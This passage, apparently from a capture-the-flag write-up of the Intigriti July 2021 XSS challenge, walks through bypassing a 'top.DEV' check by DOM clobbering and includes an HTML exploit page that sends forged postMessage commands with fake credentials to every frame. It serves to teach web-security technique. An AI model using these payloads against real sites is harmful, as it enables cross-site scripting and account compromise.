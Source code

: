 With having a `DEV` element:
```bash
❯ ./dom-go -url "https://challenge-0721.intigriti.io/htmledit.php?code=<img id=DEV><iframe id=frame src=console.php></iframe>" -js "'Number of <script>-tags: ' + document.getElementById('frame').contentWindow.document.getElementsByTagName('script').length"
```
will return `Number of <script>-tags: 4`. We have the `top.DEV` check passed!

### Running a `logv` command

Next step would be to run a `logv` command. This works by using the `window.postMessage` method, with an element having the `cmd` property set to `logv`. To do so, we start developing our own HTML file, which sets up the `top.DEV` bypass and then runs a `postMessage` to the correct window. 
However, this does not log anything, because we are missing the correct credentials. The `onmessage` handler we are focusing is doing a `checkCredentials` for each received message, containing the `credentials.username` and `credentials.password` properties from the message. So we include this also in our first payload:

```html
<html>
<head></head>
<body>
    <script>
        function sendToAllFrames(wind, data){
            for(let i=0;i<wind.frames.length;i++){
                wind.frames[i].postMessage(data, "*");
                if(wind.frames[i].frames.length>0)
                    sendToAllFrames(wind.frames[i], data);
            }
        }

        const url = `https://challenge-0721.intigriti.io/htmledit.php?code=`;
        const base = `<img id="DEV"><iframe src="console.php">`;

        const win = window.open(`${url}${encodeURIComponent(base)}`, "test");

        setTimeout(()=>{
            sendToAllFrames(win, {credentials:{username:"test",password:"test"},cmd:"logv",message:"name"});
        }, 1000);
    </script>
</body>
</html>
```

This HTML file opens a new popup, pointing to `htmledit.php`, which then loads the `DEV` element and the `iframe` pointing to console.php. Additionally I wrote a small function, which sends the message to all frames under a window reference. By doing so, I do not need to figure out, which frame I need to send the message to.

Nevertheless, nothing is printed to the unordered list. If we debug the `checkCredentials` method, we can see, that the referecen to `top.store.users` and ultimately `top.store.users.admin` is missing. We should be able to bypass this aswell with DOM clobbering, as we did with the `top.DEV` reference. Using (this article)[https://portswigger.net/research/dom-clobbering-strikes-back] from @garethheyes, we can find ways to use clobbering for more than 3 levels deep using nested iframes with the srcdoc attribute.
